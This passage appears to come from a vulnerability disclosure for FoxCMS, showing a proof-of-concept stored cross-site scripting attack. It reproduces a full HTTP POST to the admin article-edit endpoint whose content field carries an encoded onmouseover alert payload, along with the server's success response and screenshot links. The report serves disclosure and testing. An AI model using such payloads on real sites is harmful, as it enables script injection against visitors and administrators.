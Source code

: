 ```
			type: 'warning',
			text: res.msg
		})
	},
})
```

Function point location：

<img width="2878" height="1472" alt="image" src="https://github.com/user-attachments/assets/465f3e64-8bf8-4d79-acff-b7c44ff3e03b" />


Request:

```
POST /index.php/admin4435/Article/edit.html HTTP/1.1
Host: www.foxcms.cms
Content-Length: 308
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36 Edg/140.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://www.foxcms.cms
Referer: http://www.foxcms.cms/index.php/admin4435/Article/edit.html?type=1&bcid=2_11&id=105
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=7c8341b30311677309e6835915d1b2c9; access_127_0_0_1=1761129226
Connection: close

id=105&title=test-xss4&brief_title=&article_field=&column_id=11&column=%E4%BC%81%E4%B8%9A%E5%8A%A8%E6%80%81&breviary_pic_id=&keywords=&description=&article_source=&author=&team_status=%2C&content=%3Cp%3E%26lt%3Binput+onmouseover%3Dalert(1)+%2F%26gt%3B%3C%2Fp%3E&release_time=2025-10-21+18%3A05&click=49&tags=
```

Response:

```
HTTP/1.1 200 OK
Server: nginx/1.15.11
Date: Wed, 22 Oct 2025 13:08:01 GMT
Content-Type: application/json; charset=utf-8
Connection: close
X-Powered-By: PHP/7.3.4
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 1800
Access-Control-Allow-Methods: GET, POST, PATCH, PUT, DELETE, OPTIONS
Access-Control-Allow-Headers: Authorization, Content-Type, If-Match, If-Modified-Since, If-None-Match, If-Unmodified-Since, X-CSRF-TOKEN, X-Requested-With
Access-Control-Allow-Origin: http://www.foxcms.cms
Set-Cookie: PHPSESSID=7c8341b30311677309e6835915d1b2c9; expires=Thu, 23-Oct-2025 13:08:01 GMT; Max-Age=86400; path=/
Content-Length: 59

{"code":1,"msg":"操作成功","data":"","url":"","wait":1}
```
<img width="2878" height="1632" alt="image" src="https://github.com/user-attachments/assets/ae6225cf-6fa6-494b-a9b8-15d93fe53ba4" />

